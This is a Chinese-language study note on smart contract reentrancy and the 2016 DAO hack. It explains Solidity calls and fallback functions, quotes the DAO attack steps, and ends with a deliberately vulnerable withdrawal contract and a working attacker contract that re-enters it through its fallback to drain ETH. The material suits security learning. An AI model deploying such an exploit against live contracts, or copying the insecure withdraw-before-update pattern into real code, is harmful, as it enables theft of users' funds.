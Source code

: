 # #DASP# Reentrancy (1)


## 0x00 Info

从本篇开始学习智能合约漏洞，依据[DASP TOP10](https://www.dasp.co)。

<!-- more -->

## 0x01 DAO

**History**:  
* [The History of the DAO](https://blog.slock.it/the-history-of-the-dao-and-lessons-learned-d06740f8cfa5)

**WhitePaper**:  
* [WhitePaper](https://download.slock.it/public/DAO/WhitePaper.pdf)
* [白皮书](https://ethfans.org/posts/the-dao-whitepaper)

**OpenSource**:  
* [Github](https://github.com/slockit/dao)
* [etherscan](https://etherscan.io/address/0xbb9bc244d798123fde783fcc1c72d3bb8c189413#code)

### 概念理解

众筹合约，通过资金ETH换取DAO token，从而获得投票和发起议案的权利，按一定规则回馈给投资人投资项目的收益。
因此，The DAO特点：
* 本质是个VC，通过以太坊筹集的资金（ETH）锁定在智能合约中，通过**代码**主导！
* 出资ETH获取对应DAO代币，具有审查项目、投票表决和提出投资项目议案的权利
* 投资议案由全体代币持有人投票表决，一币一票，票数通过，投资项目可获得相应投资额。利用“众智”+出资额权重决定投资策略（取代传统行业投资经理）。
* 投资项目的收益按规则回馈股东。

### The DAO is attacked

[the-dao-the-hack-the-soft-fork-and-the-hard-fork](https://www.cryptocompare.com/coins/guides/the-dao-the-hack-the-soft-fork-and-the-hard-fork/)

```
+------------------------+  3.5M ETH lose   +-----------+  DoS vul   +-----------+
| antipattern (withdrew) | ---------------> | soft fork | ---------> | hard fork |
+------------------------+                  +-----------+            +-----------+
```


[security-alert-dos-vulnerability-in-the-soft-fork](https://blog.ethereum.org/2016/06/28/security-alert-dos-vulnerability-in-the-soft-fork/)

## 0x02 Reentrancy

### solidity基础知识

**合约调用**

1. message call
```solidity
bytes4 funcIdentifier = bytes4(keccak256("FuncName(paramType)"));
this.call(funcIdentifier, paramValue);
```

2. contract object
```solidity
Contract1 c = Contract1(AddressOfContract1);  
c.foo();
```

**限制**

  * 例如send花费2300gas
  * 递归调用栈最大1024层

**转币**

```solidity
1. <address>.transfer()    //失败抛出throw且回滚，2300gas
2. <address>.send()    //失败返回false，2300gas
3. <address>.gas().call.vale()()    //失败返回false，所有gas
```

**fallback**

[Solidity的fallback函数](http://me.tryblockchain.org/blockchain-solidity-fallback.html)

```solidity
contract SimpleFallback{
  function(){
    //fallback function
  }
}
```

两种情况会调用fallback：
1. 调用函数找不到时
2. 向合约发送ether时


### reentrancy & The DAO

DASP TOP10中reentrancy的描述：[dasp](https://www.dasp.co/#item-1)

reentrancy原型为[Race-To-Empty](https://vessenes.com/more-ethereum-attacks-race-to-empty-is-the-real-deal/)，其中就已经介绍了**重置资产**放在**转币**操作后的漏洞。

其中最典型的攻击案例为The DAO。对于The DAO的漏洞分析及利用exp & demo网上一大堆，这里就不ctrlcv了。
> 建议结合源码一起看，并使用本地（truffle+testrpc or geth testnet）或者在线的remix编译环境上手实践。

可以首先看看中文分析：
* [区块链安全 - DAO攻击事件解析](https://paper.seebug.org/544/)
* [以太坊智能合约安全入门](https://paper.seebug.org/601/)

推荐Phil Daian分析：
* [Analysis of the DAO exploit](http://hackingdistributed.com/2016/06/18/analysis-of-the-dao-exploit/)

{{< admonition quote >}}
attack steps:
  1. Propose a split and wait until the voting period expires. (DAO.sol, createProposal)
  2. Execute the split. (DAO.sol, splitDAO)
  3. Let the DAO send your new DAO its share of tokens. (splitDAO -> TokenCreation.sol, createTokenProxy)
  4. Make sure the DAO tries to send you a reward before it updates your balance but after doing (3). (splitDAO -> withdrawRewardFor -> ManagedAccount.sol, payOut)
  5. While the DAO is doing (4), have it run splitDAO again with the same parameters as in (2) (payOut -> _recipient.call.value -> _recipient())
  6. The DAO will now send you more child tokens, and go to withdraw your reward before updating your balance. (DAO.sol, splitDAO)
  7. Back to (5)!
  8. Let the DAO update your balance. Because (7) goes back to (5), it never actually will :-).
{{< /admonition >}}

其中最关键的就是第4步，splitDAO -> withdrawRewardFor -> payOut，其中payOut使用_recipient.call.value(_amount)()转币，而splitDAO函数中资产重置是放在withdrawRewardFor函数后，造成漏洞。

demo & exp：
* [SimpleDAO attack](http://blockchain.unica.it/projects/ethereum-survey/attacks.html#simpledao)
* [reentrancy exp](https://github.com/trailofbits/not-so-smart-contracts/tree/master/reentrancy)

其他合约中的reentrancy漏洞：[CityMayor](https://blog.citymayor.co/posts/how-someone-tried-to-exploit-a-flaw-in-our-smart-contract-and-steal-all-of-its-ether/)

{{< admonition note >}}
特别注意此篇中的分析思路及工具[porosity](https://github.com/comaeio/porosity)/[etherscan](https://etherscan.io/)
{{< /admonition >}}

---

**漏洞合约：**
```solidity
contract vulnerable_DAO{
    mapping(address=>uint) userBalances;
    
    function vulnerable_DAO() payable {
    }
    
    function getUserBalance(address user) constant returns(uint) {
        return userBalances[user];
    }
    
    function addToBalance() payable {
        userBalances[msg.sender] += msg.value;
    }
    
    function withdrawBalance() {
        uint amountToWithdraw = userBalances[msg.sender];
        if(msg.sender.call.value(amountToWithdraw)() ==false) {
            throw;
        }
        userBalances[msg.sender] = 0;
    }
    
    function getBalance() returns(uint) {
        return this.balance;
    }
}
```

**攻击利用合约：**
```solidity
contract Attack {
    address vulnerable_contract;
    uint attackCount;
    address public owner;
    
    function Attack() public{
        attackCount = 2;
        owner = msg.sender;
    }
    
    function() payable{
        while(attackCount>0) {
            attackCount--;
            require(vulnerable_contract.call(bytes4(keccak256("withdrawBalance()"))));
        }
    }
    
    function deposit(address _vulnerable_contract) public payable{
        vulnerable_contract = _vulnerable_contract;
        require(vulnerable_contract.call.value(msg.value)(bytes4(keccak256("addToBalance()"))));
    }
    
    function withdraw(){
        require(vulnerable_contract.call(bytes4(keccak256("withdrawBalance()"))));
    }
    
    function getBalance() returns(uint) {
        return this.balance;
    }
}
```
